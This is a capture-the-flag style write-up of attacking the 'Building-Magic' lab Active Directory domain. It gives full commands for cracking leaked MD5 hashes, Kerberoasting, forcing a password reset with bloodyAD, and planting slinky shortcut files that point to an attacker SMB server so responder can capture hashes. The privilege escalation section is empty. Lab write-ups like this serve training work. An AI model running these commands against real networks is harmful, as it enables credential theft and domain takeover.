

=  Building-Magic Machine Write-Up

*Author* Colosion

*Difficulty* easy -> medium

:toc:
:toclevels: 3

== Table of Contents
- <<scope,Scope and Objective (given)>>
- <<enumeration,Enumeration>>
- <<ad-enum,AD Enumeration>>
- <<ad-access,AD Enumeration & Access>>
- <<privesc,Privilege Escalation>>
- <<notes,Final Notes>>

[[scope]]
== Scope and Objective (given)
*Objective*: As a penetration tester on the Hack Smarter Red Team, your objective is to achieve a full compromise of the Active Directory environment.

*Initial Access*: A prior enumeration phase has yielded a leaked database containing user credentials (usernames and hashed passwords). This information will serve as your starting point for gaining initial access to the network.

*Execution*: Your task is to leverage the compromised credentials to escalate privileges, move laterally through the Active Directory, and ultimately achieve a complete compromise of the domain.

* buildingmagic.local
* dc01.buildingmagic.local

*Leaked Database File*
[source]
----
id	username	full_name	role		                password
1	r.widdleton	Ron Widdleton	Intern Builder	c4a21c4d438819d73d24851e7966229c
2	n.bottomsworth	Neville Bottomsworth Plannner	61ee643c5043eadbcdc6c9d1e3ebd298
3	l.layman	Luna Layman	Planner	      8960516f904051176cc5ef67869de88f
4	c.smith		Chen Smith	Builder		     bbd151e24516a48790b2cd5845e7f148
5	d.thomas	Dean Thomas	Builder		      4d14ff3e264f6a9891aa6cea1cfa17cb
6	s.winnigan	Samuel Winnigan	HR Manager	  078576a0569f4e0b758aedf650cb6d9a
7	p.jackson	Parvati Jackson	Shift Lead	     eada74b2fa7f5e142ac412d767831b54
8	b.builder	Bob Builder	Electrician	        dd4137bab3b52b55f99f18b7cd595448
9	t.ren		Theodore Ren	Safety Officer	 bfaf794a81438488e57ee3954c27cd75
10	e.macmillan	Ernest Macmillan Surveyor	   47d23284395f618bea1959e710bc68ef
----
Credential Analysis & Validation

* The Initial Compromise: The lab begins with a leaked database of credentials, a common scenario in real-world pentesting. The leaked passwords are non-salted hashes, making them vulnerable to cracking.
* Non-Salted Hashes: These are password hashes created without adding a unique, random string (salt). This allows identical passwords to produce identical hashes, making them easy to crack with pre-computed "rainbow tables" and online services like CrackStation.net.
* Hash Cracking: By using a hash cracking service, two valid passwords were found.
* Credential Validation with NetExec (nxc): The nxc tool is used to test if the cracked credentials are valid within the Active Directory environment.
* Command: `nxc smb <target_domain> -u <username> -p <password> --shares`
* Purpose: This command attempts to authenticate to the target machine's SMB service using the provided username and password. The `--shares` flag lists accessible shares if authentication is successful, confirming the credentials are valid.

[[enumeration]]
== Enumeration
Leaked database gives a opportunity to crack passwords to exist users in target system

*NOTE* First process given information after `nmap` scan

=== Passwords cracking && find valiable users

* First way

Here put a list of hashed passwords and Crack Station finds matches

Visit a site:
https://crackstation.net

* Second way

By using tool `hashcat` crack list of hashed passwords also to identify hash use `hashid`

[source]
----
hashid hash_pass.txt
----

So by identifing it's `MD5` hash

[source]
----
hashcat -m 0 -a 0 hash_pass.txt /home/kali/wordlists/passwords/rockyou.txt --keep-guessing -O
----

*-m* | hash cracking mode `MD5`

*-a* | brute-force or others mode `0`

*--keep-guessing* | don't stop if you find valid hash

////
image::hashcat.png[alt text , width=600 , height=400]
////

Rockyou wordlist does not contain pass for user `t.ren`

*Founded users and passwords*

[source]
----
r.widdleton	lilronron
t.ren		shadowhex7
----

*Validate* this users by crackmapexec or nxc by `smb`

[source]
----
crackmapexec smb 10.1.74.139  -u r.widdleton -p lilronron --shares 
#
nxc smb buildingmagic.local -u 'r.widdleton' -p 'lilronron' --shares
----

So i got a user `r.widdleton` : `lilronron`

[[ad-enum]]
== AD Enumeration
=== BloodHound
I use it when i want to map Active Directory findings
Default commands to start bloodhound:

[source]
----
sudo neo4j start
bloodhound-python -d 'buildingmagic.local' -u 'r.widdleton' -p 'lilronron' -dc 'dc01.buildingmagic.local' -c all -ns 10.1.80.37 
----

`BloodHound` cathes information about system and save into `json` files

After starting `bloodhound-cli` - upload `json` files

=== Possible attack path
`First degree object control` found `r.haggard` as a *kerbeous* user this user has privilage to change password of `h.potch`

*ForceChangePassword* privilage means that we can change user password

If user is kerbeous we can catch his ticket.

=== Ticket catching

Start a `responder`
[source]
----
sudo responder -I tun0    
----

Catch hash by `nxc`
[source]
----
nxc ldap dc01.buildingmagic.local -u 'r.widdleton' -p 'lilronron' --kerberoasting output.txt
----

Crack password by `hashcat`
[source]
----
hashcat hash.txt /wordlists/rockyou.txt
----

Check if user is correct by `nxc`

So we had a new owned user `r.haggard` : `rubeushagrid`

=== Changing password for h.potch

As we mentioned user `r.haggard` has a *ForceChangePassword* privilage to user `h.potch`

So we can change password of `h.potch`

[source]
----
bloodyAD --host "10.1.80.37" -d 'dc01.buildingmagic.local' -u  'r.haggard' -p  'rubeushagrid' set password 'h.potch' 'fuckpass'
----

Check if user is correct by `nxc`

Owned new user `h.potch` : `fuckpass`

[[ad-access]]
== AD Enumeration & Access
=== Smb Enemuration
As we owned new user let's check smb shares

[source]
----
crackmapexec smb 10.1.80.37 -u h.potch  -p fuckpass  --shares
----

We have a write permisions on share File-Share it's a point for next steps

Using `nxc` i searched some modules and find `slinky` module 

`slinky` - Creates windows shortcuts with the icon attribute containing a `URI` to the specified  server (default SMB) in all shares with write permissions

We need only to create a link in File-Share and need wait when user open this

[source]
----
nxc smb buildingmagic.local  -M slinky -u 'h.potch' -p 'fuckpass' -o SERVER=10.200.19.165 SHARES=File-Share NAME=smarter
----

Also don't forgot to start 

[source]
----
sudo responder -I tun0
----

Here we go we got a `h.grangon` user hash

[[privesc]]
== Privilege Escalation

[[notes]]
== Final Notes
